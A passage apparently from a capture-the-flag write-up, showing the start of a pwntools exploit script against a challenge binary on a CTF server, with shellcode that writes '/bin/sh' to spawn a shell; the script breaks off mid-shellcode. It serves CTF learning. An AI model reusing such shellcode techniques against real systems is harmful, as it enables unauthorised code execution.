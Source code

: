 Below is the full exploit script:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal'
elf = context.binary = ELF(exe, checksec=True)
libc = './lib/libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'chal.amt.rs', 1341

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *main+474
'''.format(**locals())
# break *0x1337000

# =========================================================
#                         EXPLOITS
# =========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled
# RUNPATH:  b'./lib'

def skill_issue_exploit():
    global io
    io = initialize()

    shellcode = b''
    shellcode += b'\x90' * 8

    shellcode += asm(f'''
        movd rdi, xmm0
        movd rsp, xmm1
        movd rbp, xmm1
                     
        mov dword ptr [rdi], 0x6e69622f
        add rdi, 4
                     
        mov dword ptr [rdi], 0x0068732f
        sub rdi, 4
    ''')

    shellcode += asm(f'''
        mov rbx, rdi
        xor ecx, ecx
```